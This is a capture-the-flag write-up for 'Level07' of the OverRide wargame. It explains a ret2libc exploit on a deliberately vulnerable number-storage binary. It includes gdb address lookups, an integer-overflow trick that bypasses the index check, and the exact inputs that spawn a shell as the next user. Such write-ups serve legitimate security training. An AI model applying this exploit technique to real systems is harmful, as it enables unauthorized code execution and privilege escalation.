

# Level07

## Reconnaissance

We have two security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow
- **Canary** = Random value added after the return address, if it is modified, the program leave. Prevent overwrite of return address

We analyse the program with gdb and we notice that the program enable the user to store `unsigned int` in memory from a specific address but only in index which `index % 3 != 0` and with for the value, no numbers with the first byte equal to `183` so `0xb7`

In addition, the arguments and environement variables are erased so not possible to store a payload there.

## Exploit

### Getting addresses


Lets try to do a `ret2libc` which consist of creating a combinaison of `libc` function call and use of strings stored in `libc`.
How to get the address libc functions:
```shell
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc mappings
process 1989
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xffffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

So now we have the address of `"/bin/sh"` and `system`. We have to overwrite the return address of main with the address of `system`
then will be the spot for a return address after system has been called, we dont really need to specify something there.
And after, so system + `0x8` address, we specify the argument for system, so our `"/bin/sh"`

## Offset



So offset 456 and we can store `unsigned int` in memory so `4 bytes by 4 bytes` then our index is `456 / 4 = 114`
We have:
- `114` for the return address
- `116` for the argument (`"/bin/sh"`)

The issue is that `114` is not a valid value for index since `114 % 3 = 0`
Since the index is multiplied by 4, we just have to find a value which multiplied by 4 overflow to let us with `114` = `1110010`.

    1         2         3         4
0000 0000 0000 0000 0000 0000 0111 0010 = `114`

0000 0000 0000 0000 0000 0001 1100 1000 = `114 * 4` = `456` => equivalent to bitshifting `<<2` and in general `nb<<n` <=> `nb * 2**n`

so with that said, we just have to add a `1` on the last bit or the second last bit

0100 0000 0000 0000 0000 0000 0111 0010 = `1073741938` => `1073741938 % 3 = 1` great we got our number

OR

1000 0000 0000 0000 0000 0000 0111 0010 = `2147483762` => `2147483762 % 3 = 2`

Both works

Now we can write in the addresses, we just have to convert them in decimal and we good to pwn:
- `system`: `0xf7e6aed0` => `4159090384`
- `"/bin/sh"`: `0xf7f897ec` => `4160264172`

```shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```
